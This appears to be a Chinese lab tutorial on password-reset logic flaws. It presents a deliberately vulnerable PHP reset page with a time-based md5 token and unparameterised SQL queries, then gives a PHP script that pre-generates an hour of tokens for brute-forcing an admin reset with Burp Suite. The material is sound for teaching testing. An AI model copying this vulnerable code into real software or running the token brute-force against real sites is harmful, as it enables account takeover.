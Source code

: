 为了防止用户遗忘密码，大多数网站都提供了找回密码功能。常见的找回密码方式有：邮箱找回密码、根据密码保护问题找回密码、根据手机号码找回密码等。虽然这些方式都可以找回密码，但实现方式各不相同。无论是哪种密码找回方式，在找回密码时，除了自己的用户密码，如果还能找回其他用户的密码，就存在密码找回漏洞。

密码找回漏洞在逻辑漏洞中占了较大的比例。测试密码找回漏洞与其他逻辑漏洞的方法相同，其中必经的两个步骤是：熟悉业务流程（密码找回过程）与对流程中的HTTP请求分析。

```php
<?php
include 'init.php';
function create_pass($username,$email){
	$token=md5(time().$username.$email);
	return $token;
}

echo ' <meta charset="UTF-8">';
if($_GET['c']=='forget'){
	$username= trim($_POST['username']);
	$re=mysql_query("select * from member where username='{$username}'");
	$row = mysql_fetch_array($re);
	$_email = $row['email'];
	if($row){	
		echo "<form method='post' action='?c=email'>";
		echo "用户{$row['username']}存在  请输入用户的邮箱";
		echo "<input type='text' name='email'/>";
		echo "<input type='hidden' name='username' value='{$row['username']}'/>";
		echo "<input type='submit' value='发送key'/></form>";
	}	
}

if($_GET['c']=='email'){
	$username= trim($_POST['username']);
	$re=mysql_query("select * from member where username='{$username}'");
	$row = mysql_fetch_array($re);
	$email= trim($_POST['email']);
	if($email == $row['email']){
		$token=create_pass($row['username'],$row['email']);
		mysql_query("update member set token='{$token}' where id='{$row['id']}'");
		echo "密码已发送到邮件，请登录邮箱修改密码";
	}else{
		echo "邮箱错误 请填写对应的邮箱";
	}
}

if($_GET['c']=='send'){
	$token = trim($_GET['token']);
	$re = mysql_query("select * from member where token='{$token}'");
	$row = mysql_fetch_array($re);
	if($row){
		echo "<form method='post' action='?c=pass'>";
		echo "输入你要修改的密码 ";
		echo "<input type='text' name='password'/>";
		echo "<input type='hidden' name='token' value='{$token}'/>";
		echo "<input type='submit' value='修改密码'>";
	}
}

if($_GET['c']=='pass'){
	$token = $_POST['token'];
	$password =md5(trim($_POST['password']));
	$re = mysql_query("update member set password ='{$password}' where token = '{$token}'");
	if($re){
		echo "修改成功";
	}else{
		echo "修改失败";	
	}
}

if($_GET['c']=='login'){
	echo '<form method="post" action="?c=main">';
	echo '用户 <input type="text" name="username"><br>';
	echo '密码 <input type="password" name="password"><br>';
	echo '<input type="submit" value="登录">';
	echo '</form>';	
}

if($_GET['c']=='main'){
	$username = $_POST['username'];
	$password = md5($_POST['password']);
	$re = mysql_query("select * from member where username='{$username}' and password='{$password}'");
	$row = mysql_fetch_array($re);
	if($row){
		echo "{$row['username']} 登录成功";
	}else{
			echo "帐号或密码失败";
		}	
}

if(empty($_GET['c'])){
echo '<form method="post" action="?c=forget">';
echo '<label>请输入你要查询的用户</label>';
echo '<input type="text" name="username">';
echo '<input type="submit" value="找回密码">';
echo '</form>';
}
?>
```

需要更改用户是admin  [moon@moonsec.com](mailto:moon@moonsec.com) 发邮件 邮件就有

```http
http://www.webtester.com/forget.php?c=send&token=5f40ea6af1d051a41bbfd307b75b5c08
```

访问链接修改密码

```http
http://www.webtester.com/forget.php?c=login 
```

主要看这个函数是否可以预测

```php+HTML
function create_pass($username,$email){
	$token=md5(time().$username.$email);
	return $token;
}
```

time是每一秒都会变

```http
https://tool.lu/timestamp/
```

![image-20210418214352544](../acess/image-20210418214352544.png) 

md5(当前时间戳 +用户名)  生成 token 原理

当前面条件 都通过之后就可以 生成token

我们在提交key的之前 生成一分钟或者一个小时以内的token 用脚本去访问每一个链接

http://www.webtester.com/forget.php?c=send&token=5f40ea6af1d051a41bbfd307b75b5c08

假如存在的token就可以修改密码。

这个是根据这套程序生成一小时的token

```php
<?php
function create_pass($username,$email){
	$token=md5(time().$username.$email);
	return $token;
}

for($i=1;$i<=3600;$i++){
	$timex= create_pass('admin','moon@moonsec.com');
	write_file($timex."\n");
	echo $i."\r\n";
	sleep(1);	
}

function write_file($c){
	fwrite(fopen("time.txt", "a+"),$c);
}
?>
```

在php里面运行脚本D:\phpStudy\php\php-5.2.17>php time.php

提交admin和 [moon@moonsec.com](mailto:moon@moonsec.com)邮箱 发送key

![img](../acess/wps6.jpg) 

 

用brupsuite 抓包修改变量 选择payload 读入文件time.txt

![img](../acess/wps7.jpg) 

![img](../acess/wps8.jpg) 

成功的token

![img](../acess/wps9.jpg) 

 

访问穷举出来的 token访问url

http://www.webtester.com/forget.php?c=send&token=9bc5870f0e974f76a89e1dbc641d3329

 

![img](file:///C:\Users\wzxmt\AppData\Local\Temp\ksohtml1992\wps10.jpg) 

 

![img](file:///C:\Users\wzxmt\AppData\Local\Temp\ksohtml1992\wps11.jpg) 

修改成功之后登录

![img](file:///C:\Users\wzxmt\AppData\Local\Temp\ksohtml1992\wps12.jpg) 

 

本地生成token出错的原因 是 程序没有设置地区时间时间戳就会不一样 导致出错。

